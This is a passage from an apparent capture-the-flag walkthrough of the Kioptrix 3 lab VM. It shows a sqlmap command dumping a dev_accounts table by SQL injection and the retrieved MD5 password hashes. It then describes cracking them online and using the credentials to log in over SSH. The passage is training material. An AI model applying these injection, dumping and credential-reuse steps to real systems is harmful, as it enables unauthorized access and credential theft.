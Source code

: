 A table dev_accounts was found. Maybe it contains user names and passwords. I run sqlmap again to dump the contents of that table:

```
# ./sqlmap.py -u "http://kioptrix3.com/gallery/gallery.php?id=1&sort=filename#photos" --dbms=MySQL -D gallery -T dev_accounts --dump
.
.
.
[22:58:34] [INFO] the SQL query used returns 2 entries
[22:58:34] [INFO] retrieved: "1","0d3eccfb887aabd50f243b3f155c0f85","dreg"
[22:58:34] [INFO] retrieved: "2","5badcaf789d3d1d09794d8f021f40f0e","loneferret"
[22:58:34] [INFO] analyzing table dump for possible password hashes            
recognized possible password hashes in column 'password'. Do you want to crack them via a dictionary-based attack? [Y/n/q] n
Database: gallery
Table: dev_accounts
[2 entries]
+----+----------------------------------+------------+
| id | password                         | username   |
+----+----------------------------------+------------+
| 1  | 0d3eccfb887aabd50f243b3f155c0f85 | dreg       |
| 2  | 5badcaf789d3d1d09794d8f021f40f0e | loneferret |
+----+----------------------------------+------------+
```

Two accounts have been discovered with hashed passwords. I chose not to crack the hashes using sqlmap and used [http://www.md5decrypter.co.uk/](http://www.md5decrypter.co.uk/) instead. md5decrypter.co.uk is an excellent resource and I've used it numerous times to quickly crack various hashes.

![](/images/2012-07-16/04.png)

md5decrypter.co.uk successfully cracks both passwords. I decide to try to login to the server using SSH and the cracked credentials. The first attempt is done with loneferret's account:

```
# ssh loneferret@kioptrix3.com
The authenticity of host 'kioptrix3.com (192.168.1.149)' can't be established.
RSA key fingerprint is 9a:82:e6:96:e4:7e:d6:a6:d7:45:44:cb:19:aa:ec:dd.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added 'kioptrix3.com,192.168.1.149' (RSA) to the list of known hosts.
loneferret@kioptrix3.com's password: 
Linux Kioptrix3 2.6.24-24-server #1 SMP Tue Jul 7 20:21:17 UTC 2009 i686
 
The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.
 
Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.
 
To access official Ubuntu documentation, please visit:
```